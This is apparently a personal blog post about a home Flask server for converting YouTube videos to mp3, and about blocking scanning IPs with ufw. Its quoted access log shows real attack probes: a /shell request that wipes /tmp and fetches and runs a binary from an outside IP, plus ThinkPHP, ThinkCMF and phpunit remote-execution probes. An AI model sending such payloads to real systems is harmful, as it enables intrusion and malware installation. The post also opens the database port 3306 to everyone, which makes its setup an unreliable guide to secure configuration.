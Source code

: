 I ran a simple Python webserver to host mp3 files that my mom asked me to download from Youtube the other day.
Yep, I am technically the technical support of anything tech in the family. She sometimes found a good song on Youtube and would want an mp3 of it.

I wrote a simple web service using Python and Flask and let her supply the Youtube link to it, and it will download the mp3 for her - Thanks youtube-dl!

However, being the cheapskate that I am, I'm running this server on 1GB RAM. So that simple task, unfortunately, take a few minutes to complete.
Therefore, I fire up a simple web server for her to download the processed mp3 later.

I log all the requests coming to the web server to a file. As you can see below, it seemed that my server is always being scanned.
<pre>
188.153.229.155 - - [04/Mar/2022 07:31:51] code 400, message Bad request syntax ('GET /shell?cd+/tmp;rm+-rf+*;wget+ http://2.56.57.7/.s4y/arm;sh+/tmp/arm HTTP/1.1')
188.153.229.155 - - [04/Mar/2022 07:31:51] "GET /shell?cd+/tmp;rm+-rf+*;wget+ http://2.56.57.7/.s4y/arm;sh+/tmp/arm HTTP/1.1" 400 -
45.146.165.37 - - [04/Mar/2022 11:10:12] "POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1" 501 -
45.146.165.37 - - [04/Mar/2022 11:59:10] "GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1" 302 -
5.129.3.8 - - [04/Mar/2022 12:29:46] "GET /.well-known/assetlinks.json HTTP/1.1" 302 -
5.129.3.8 - - [04/Mar/2022 12:29:51] "GET /.well-known/assetlinks.json HTTP/1.1" 302 -
34.229.145.138 - - [04/Mar/2022 12:30:24] "GET /app-ads.txt HTTP/1.1" 302 -
92.39.215.63 - - [04/Mar/2022 12:32:40] "GET /.well-known/assetlinks.json HTTP/1.1" 302 -
178.214.251.62 - - [04/Mar/2022 12:32:44] "GET /.well-known/assetlinks.json HTTP/1.1" 302 -
45.146.165.37 - - [04/Mar/2022 12:48:48] "GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP21 HTTP/1.1" 302 -
107.175.87.164 - - [04/Mar/2022 13:14:59] "POST /boaform/admin/formLogin HTTP/1.1" 501 -
66.249.89.4 - - [04/Mar/2022 13:29:22] "GET /feeds/posts/default HTTP/1.1" 302 -
45.146.165.37 - - [04/Mar/2022 13:42:45] "GET /?a=fetch&content=<php>die(@md5(HelloThinkCMF))</php> HTTP/1.1" 302 -
45.137.23.152 - - [04/Mar/2022 14:55:11] "GET /doc/script/lib/seajs/config/sea-config.js HTTP/1.1" 302 -
45.146.165.37 - - [04/Mar/2022 15:03:13] code 501, message Unsupported method ('POST')
45.146.165.37 - - [04/Mar/2022 15:03:13] "POST /Autodiscover/Autodiscover.xml HTTP/1.1" 501 -
34.86.35.15 - - [04/Mar/2022 15:34:33] code 400, message Bad request version ('À(À$À\x14À')
34.86.35.15 - - [04/Mar/2022 15:34:33] "ÊÆãq~Ãk~8aP»®¥4@V4xü>ãfWhÌÌÀ/À+À0À,ÀÀÀ'À#ÀÀ     À(À$ÀÀ" 400 -
</pre>
And I checked Upcloud's (my cloud provider) firewall package. Unfortunately, it will cost me $4.03 per month / $0.0056 per hour just to get the firewall running. Yikes!

So I decided to enable the firewall on the server itself. So let us just block those IPs.

First, I have to get the list of IPs into a file. I assumed no natural person visited my site yesterday.
So I quickly run a quick command just to get the IPs.

<pre>
cat log.txt | cut -d" " -f1 | sort | uniq -c | awk '{print $2}' > log_ip.txt
</pre>

So I have something like this.

<pre>
45.146.165.37
45.155.126.211
45.87.61.162
51.222.253.13
51.222.253.9
...
66.249.89.2
66.249.89.31
66.249.89.4
81.38.99.77
82.84.179.154
89.187.182.24
92.39.215.63
</pre>

Now, it's time to enable the firewall.
First, get it installed.

<pre>
sudo apt update
sudo apt install ufw
</pre>

Then, check if it's running. It should be disabled by default.
<pre>
sudo ufw status verbose
</pre>

Next, I add some rules that allow my applications and services to listen to certain ports
<pre>
sudo ufw allow 22/tcp
sudo ufw allow 80/tcp
sudo ufw allow 8000/tcp
sudo ufw allow 8080/tcp
sudo ufw allow 3306/tcp
sudo ufw allow 443/tcp
</pre>

Then, it is time to enable the firewall
<pre>
sudo ufw enable
sudo ufw status verbose
</pre>

It will show the current configuration, which looks like something like this.

<pre>
Status: active
Logging: on (low)
Default: deny (incoming), allow (outgoing), disabled (routed)
New profiles: skip

To                         Action      From
--                         ------      ----
22/tcp                     ALLOW IN    Anywhere
80/tcp                     ALLOW IN    Anywhere
8000/tcp                   ALLOW IN    Anywhere
8080/tcp                   ALLOW IN    Anywhere
3306/tcp                   ALLOW IN    Anywhere
443/tcp                    ALLOW IN    Anywhere
22/tcp (v6)                ALLOW IN    Anywhere (v6)
80/tcp (v6)                ALLOW IN    Anywhere (v6)
8000/tcp (v6)              ALLOW IN    Anywhere (v6)
8080/tcp (v6)              ALLOW IN    Anywhere (v6)
3306/tcp (v6)              ALLOW IN    Anywhere (v6)
443/tcp (v6)               ALLOW IN    Anywhere (v6)
</pre>

Now, I ran a simple loop to add the list of IPs before to the "ban" list.
<pre>
while read line; do sudo ufw insert 1 deny from $line to any; done < log_ip.txt
</pre>

That will give you something like this
<pre>
Status: active
Logging: on (low)
Default: deny (incoming), allow (outgoing), disabled (routed)
New profiles: skip

To                         Action      From
--                         ------      ----
Anywhere                   DENY IN     34.86.35.15
Anywhere                   DENY IN     128.14.141.34
Anywhere                   DENY IN     176.107.23.166
Anywhere                   DENY IN     124.206.180.139
....
</pre>

To check if this works, see the UFW log files
<pre>
sudo less /var/log/ufw.log
</pre>

You should be able to see something like this
<pre>
ar  5 05:52:46 kemaman kernel: [3519702.189354] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=240 ID=57458 DF PROTO=TCP SPT=41831 DPT=34426 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:46 kemaman kernel: [3519702.254407] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=241 ID=35403 DF PROTO=TCP SPT=40709 DPT=16304 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:46 kemaman kernel: [3519702.344754] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=240 ID=1862 DF PROTO=TCP SPT=16234 DPT=53181 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:47 kemaman kernel: [3519702.993538] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=240 ID=56444 DF PROTO=TCP SPT=40709 DPT=16305 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:47 kemaman kernel: [3519703.018882] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=240 ID=36868 DF PROTO=TCP SPT=16234 DPT=53182 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:47 kemaman kernel: [3519703.213572] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=240 ID=1383 DF PROTO=TCP SPT=41831 DPT=34427 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:48 kemaman kernel: [3519703.887525] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=241 ID=28004 DF PROTO=TCP SPT=16234 DPT=53183 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:48 kemaman kernel: [3519704.229145] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=240 ID=35890 DF PROTO=TCP SPT=41831 DPT=34428 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:48 kemaman kernel: [3519704.266641] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=240 ID=14878 DF PROTO=TCP SPT=40709 DPT=16306 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:49 kemaman kernel: [3519705.166388] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=79.124.62.86 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=235 ID=2928 PROTO=TCP SPT=47144 DPT=20290 WINDOW=1024 RES=0x00 SYN URGP=0
Mar  5 05:52:49 kemaman kernel: [3519705.195344] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=241 ID=35627 DF PROTO=TCP SPT=16234 DPT=53184 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:49 kemaman kernel: [3519705.253392] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=240 ID=59670 DF PROTO=TCP SPT=41831 DPT=34429 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:49 kemaman kernel: [3519705.324782] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=240 ID=40991 DF PROTO=TCP SPT=40709 DPT=16307 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:50 kemaman kernel: [3519705.947431] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=154.198.193.133 DST=94.237.78.193 LEN=44 TOS=0x00 PREC=0x00 TTL=52 ID=0 DF PROTO=TCP SPT=47369 DPT=6379 WINDOW=1024 RES=0x00 SYN URGP=0
Mar  5 05:52:50 kemaman kernel: [3519706.239341] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=240 ID=21826 DF PROTO=TCP SPT=16234 DPT=53185 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:50 kemaman kernel: [3519706.372121] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=240 ID=23077 DF PROTO=TCP SPT=41831 DPT=34430 WINDOW=512 RES=0x00 SYN URGP=0
Mar  5 05:52:50 kemaman kernel: [3519706.494910] [UFW BLOCK] IN=eth0 OUT= MAC=b2:5c:a8:86:1d:71:9a:7e:00:3b:09:c7:08:00 SRC=103.89.91.231 DST=94.237.78.193 LEN=40 TOS=0x00 PREC=0x00 TTL=240 ID=24427 DF PROTO=TCP SPT=40709 DPT=16308 WINDOW=512 RES=0x00 SYN URGP=0
</pre>

That's it! It might not be the best practice, and I probably wasted some resources just to run it.

Also, talking about adding new IPs later on....

